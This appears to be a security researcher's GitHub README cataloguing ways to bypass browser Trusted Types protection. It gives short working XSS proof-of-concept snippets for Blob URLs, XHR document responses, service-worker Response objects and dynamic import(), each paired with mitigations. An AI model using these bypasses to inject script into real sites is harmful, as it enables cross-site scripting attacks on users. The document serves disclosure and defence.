 # Cursed Types

This repo contains list of DOM-based XSS sinks which are not subject to [Trusted Types](https://web.dev/trusted-types/) checks. Contributions welcome! 😊

## Blob URL

Trusted Types enforced on a document will be inherited to Blob URL when navigating to Blob URL. However, resulting document of the Blob URL contains stored XSS payload, and therefore it bypasses Trusted Types check.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/blob_url.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const blob = new Blob([attackerControlledString], {type: 'text/html'});
const url = URL.createObjectURL(blob);
location.href = url;
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- There is a discussion to provide an option for creating a [secure Blob URL](https://github.com/w3c/FileAPI/issues/74).

## XHR document response

XMLHttpRequest (XHR) supports [`document` response type](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/HTML_in_XMLHttpRequest), which returns parsed document of XHR response instead of text.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xhr_document.html):
```
let attackerControlledString = 'data:text/html,<img id=content src=x onerror=alert(origin)>';
const xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.body.appendChild(this.response.querySelector('#content'));
}

xhr.open("GET", attackerControlledString);
// The following changes response type from text to parsed document.
xhr.responseType = "document";
xhr.send();
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- Only allow trusted endpoints in [CSP connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src).

## Response API

[Response API](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response) can be used in several places to serve a response of a request through Service Worker. If the Response is generated from user input, this could result in Trusted Types bypasses.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/service_worker_response.html):
```
self.addEventListener('fetch', event => {
  const params = new URLSearchParams(event.request.url.split('?')[1]);
  let attackerControlledString = params.get('attackerControlledString');
  
  if (attackerControlledString) {
    init = {
      headers: {
        'Content-Type': 'text/html',
        'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"
          
      }
    };
    event.respondWith(new Response(attackerControlledString, init));
  }
});
```

```
// Assuming legit service worker returns cached content.
caches.open("v1").then(cache => {
  let attackerControlledString = '<img src=x onerror=alert(origin)>';
  init = {
    headers: {
      'Content-Type': 'text/html',
      'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"

    }
  };
  cache.put('xss', new Response(attackerControlledString, init));
})
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## Non-DOM API based script loading

[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) currently bypasses Trusted Types.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/script_loading.html):
```
let attackerControlledString = 'data:application/javascript,alert(origin)';
import(attackerControlledString);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) + serve allow-list of script endpoints in another `script-src` directive.
